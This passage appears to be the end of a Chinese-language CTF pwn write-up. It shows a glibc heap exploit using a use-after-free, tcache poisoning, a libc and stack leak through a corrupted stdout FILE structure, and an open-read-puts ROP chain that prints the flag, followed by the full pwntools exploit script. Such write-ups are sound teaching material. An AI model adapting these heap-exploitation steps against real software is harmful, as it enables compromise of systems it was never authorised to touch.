[](https://xzfile.aliyuncs.com/media/upload/picture/20230703213142-f295451a-19a5-1.png)

```plain
add(0x90,p64(0)+p64(0x91)+p64(stack_addr))
```

然后改变一下size和fd指针

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703213158-fc1d1194-19a5-1.png)

```plain
add(0x80,'aaaa')

flag_addr = stack_addr
ppp=stack_addr+0x200
pl=b'./flag\x00\x00'
pl+=p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(0) + p64(open_addr)
pl+=p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(ppp) + p64(pop_rdx_ret) + p64(0x50) + p64(read_addr)
pl+=p64(pop_rdi_ret) + p64(ppp) + p64(puts_addr)
add(0x80, pl)
```

然后打个orw就行了  
成功读取我写入本地文件夹中的flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703213221-099a9a62-19a6-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.anna.nssctf.cn',28107)
elf = ELF('./pwn')
libc=ELF('./libc.so.6')
#libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    sla('Choice: ',str(1))
    sla('Please input size: ',str(size))
    sa('Please input content: ',content)

def delete(index):
    sla('Choice: ',str(2))
    sla('Please input idx: ',str(index))

def show(index):
    sla('Choice: ',str(3))
    sla('Please input idx: ',str(index))

def UAF(index):
    sla('Choice: ',str(666))
    sla('Please input idx: ',str(index))


for i in range(7):
    add(0x80,'aaaa')

add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x10,'aaaa')

for i in range(7):
    delete(i)

UAF(8)
show(8)

libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
leak("libc_base ",libc_base)
stdout = libc_base + libc.sym['_IO_2_1_stdout_']

environ = libc_base + libc.sym['environ']
leak('environ ',environ)
read_addr = libc_base + libc.sym['read']
open_addr = libc_base + libc.sym['open']
puts_addr = libc_base + libc.sym['puts']

pop_rdi_ret = libc_base + 0x0000000000023b6a
pop_rsi_ret = libc_base + 0x000000000002601f
pop_rdx_ret = libc_base + 0x0000000000142c92


delete(7)

add(0x80,'aaaa') #0

delete(8)


add(0x70,'aaaa') #1
add(0x90,p64(0)+p64(0x91)+p64(stdout)) #2
add(0x80,'aaaa') #3

add(0x80,p64(0xfbad1887)+p64(0)*3+p64(environ)+p64(environ+8)) #4
stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))-0x128
leak('stack_addr ',stack_addr)

delete(3)
delete(2)

add(0x90,p64(0)+p64(0x91)+p64(stack_addr))
add(0x80,'aaaa')

flag_addr = stack_addr
ppp=stack_addr+0x200

pl=b'./flag\x00\x00'
pl+=p64(pop_rdi_ret)+p64(flag_addr)+p64(pop_rsi_ret)+p64(0)+p64(open_addr)
pl+=p64(pop_rdi_ret)+p64(3)+p64(pop_rsi_ret)+p64(ppp)+p64(pop_rdx_ret)+p64(0x50)+p64(read_addr)
pl+=p64(pop_rdi_ret)+p64(ppp)+p64(puts_addr)
add(0x80, pl)

'''
'''
#duan()
itr()
```
